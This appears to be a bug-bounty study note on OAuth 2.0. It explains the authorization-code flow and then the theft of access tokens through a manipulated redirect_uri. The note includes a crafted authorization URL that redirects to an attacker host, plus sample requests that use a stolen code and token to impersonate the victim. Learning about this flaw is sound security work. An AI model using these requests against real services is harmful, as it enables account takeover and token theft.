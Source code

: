 ```yaml
---
description: OAuth - Authentication - Authorization - Bug Bounty - Credentials
---
```


# OAuth

{% embed url="https://www.youtube.com/watch?ab_channel=ByteByteGo&v=ZV5yTm4pT8g" %}

## <mark style="color:yellow;">What is OAuth 2.0</mark>

Is giving a user a resource key from an application which enables the user to get acces to another applications specific data like user or work info. This all happens without using a password.

OAuth entities

| Entity               | Description                                                           |
| -------------------- | --------------------------------------------------------------------- |
| Resource Owner       | Owns the resource like a photo (resource)                             |
| Client               | Service requesting access to photo (resource)                         |
| Authorization Server | Server authenticates resource owner and gives access tokens to client |
| Resource Server      | Server hosting the photo (resource)                                   |

Example:

{% stepper %}
{% step %}
#### Login

Joe uses login with zenlogin.com on zenprint.io, redirected to zenlogin.com
{% endstep %}

{% step %}
#### Login zenlogin.com

Joe logs in and gives acces to his photos on zenprint.io. It receives a authorization grant to zenprint.io
{% endstep %}

{% step %}
#### Authorization grant

zenprint.io presents authorization grant to zenlogin.com
{% endstep %}

{% step %}
#### Authorization grant validation

zenlogin.com validates the authorization grant and issues an access token with acces to photos on zenprint.io
{% endstep %}

{% step %}
#### Access token

zenprint.io presents access token to zenlogin.com API endpoint to access the photos.
{% endstep %}

{% step %}
#### Validation token

zenlogin.com validates the token and provides the photo.
{% endstep %}
{% endstepper %}

### <mark style="color:yellow;">Authorization Code Grant vs Implicit grant</mark>

Most common and secure is the authorization code grant which follows the flow shown above. The implicit code grant is shorter because the authorization code exchange is skipped. This results in exposing acces tokens in the browser. Client-side Javascript application might use this.

### <mark style="color:yellow;">Stealing OAuth Access Token</mark>

If an attacker is in able to impersonate the victin by stealing their access token by manipulating the `redirect_uri` to the attackers system. This can happen if the `redirect_uri` is not properly verified.

1. Create manipulated `redirect_uri`

```html
http://zenlogin.com/authorization/auth?response_type=code&client_id=0e8f12335b0bf225&redirect_uri=http://attacker.zen:57669//callback&state=something
```

2. Obtain cliend\_id by using own credentials.
3. Deliver ilnk to victim
4. Receive authorization code and force an acces token

```
GET /client/callback?code=A0FCQUFBQm1BeHdCNEZEQVdxMFR0Tl9aSEg0SThQME9SU2s2V3Y3VE9teTM2V0JLcDRTM0Jwc0NBMG9Oc09vNGlqWjNZMDFVcGlsR3ZnWmdmRzJ3Q0wtdGtSbWNqXzBHY0o4RzBtMzlKN2h3WFlNcjltc2drNkNFUlAzcnJzUTd6SnVFbTJCWmZ6WDYtVm13V1pSRW5kMlBqcWRnQkVReUZRPT0&state=something HTTP/1.1
Host: zenlogin.com
Cookie: state=somevalue
```

5. Impersonate using token

```
GET /client/ HTTP/1.1
Host: zenprint.io
Cookie:  access_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imh0Yi1zdGRudCIsImlzcyI6Imh1YmdpdC5odGIiLCJleHAiOjE3MTE0ODQwMjAuODQ2M <snip>
```

Usually the `redirect_uri` is validated using a whitelist. Depening on the validation there might be potential bypasses.

{% hint style="info" %}
If a state parameter is not present a CSRF might be possible.
{% endhint %}

### <mark style="color:yellow;">XSS</mark>

In particular reflected XSS occurs. Reflected XSS occurs when a value from the request is reflected in the response.

<figure><img src="broken-reference" alt=""><figcaption><p>Source: Geeksforgeeks</p></figcaption></figure>
